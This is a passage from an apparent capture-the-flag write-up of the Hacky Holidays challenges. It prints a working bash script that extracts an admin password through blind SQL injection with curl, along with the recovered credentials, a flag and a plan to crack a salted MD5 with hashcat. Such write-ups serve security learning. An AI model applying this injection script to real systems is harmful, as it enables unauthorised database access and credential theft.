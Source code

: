We soon figured out, that we could you it to enumerate the API. If we would hit a valid endpoit it woudl show "Expected HTTP status 200, Received: 0" 
So it was also some HTTP Status Code based SQL-Injection.  
After a while we found `/api/user` needed the `param` and `password` and @h3x0ne came up with a bash script to exfiltrate the username/password.  
```
#!/bin/bash

set -ex

HOST=https://hackyholidays.h1ctf.com
URI=/evil-quiz


#echo "obtaining session and storing ... "
#curl --cookie-jar cookies.txt $HOST$URI


while read p; do

  echo "User : $p"

  #query="somethingThatDoesntExist' union select null,null,null,null from information_schema.columns where table_schema = 'quiz' and table_name = 'admin' and substr(data_type, 1, 1) = 'varchar' and column_name = 'password' -- "
  query="somethingThatDoesntExist' union select null,null,null,null FROM quiz.admin where BINARY substr(password, 1, 1) = '$p' and username = 'admin' -- "

  RDIR1=$(curl -si --cookie "session=<yourSession>" $HOST$URI --data-raw "name=$query" | grep -oP "Location: \K.*")

  echo "$RDIR1"

  #RDIR2=$(curl -si -b cookies.txt "$HOST/evil-quiz/start" --data-raw "ques_1=3&ques_2=3&ques_3=3" | grep -oP "Location: \K.*")

  #echo "$RDIR2"

  echo $(curl -si  --cookie "session=session=<yourSession>"  "$HOST/evil-quiz/score" | egrep -i '<div style="margin-top:20px">.*</div>')
  #echo $(curl -si -b cookies.txt  "$HOST/evil-quiz/score")
done < keys.txt**
**
```
After the script was running for like 30 minutes we finally had the credentials `grinchadmin:s4nt4sucks`. So log into the attack-box:  
{F1137891}  
`flag{07a03135-9778-4dee-a83c-7ec330728e72}`  
After we obtained the flag, we cheered in the discord and renaimed our little group to "Grincharmy". We all agreed it was an awesome challenge and that we must keep collaboration going for the next challenge. So once again Thanks and Kudos to the Grincharmy.  
##Day 12 - The final challenge
The final challenge started where the last one stoped, at the attack-box [https://hackyholidays.h1ctf.com/attack-box](https://hackyholidays.h1ctf.com/attack-box)  
{F1137908}  
This application launches some DOS attacks, once you click on a target, the url looks like: `https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==`
Once decoded: `{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}`  So we get the target which we attack and ANOTHER hash, nice! Like expected if we change the target but not the hash, the attack does not fire. After enumerating and fuzzing for a while, we didn't found anything new, so it must be some attack on the hash. Maybe we could use hashcat to crack the md5 and get the salt used for hashing.  
{F1137970}  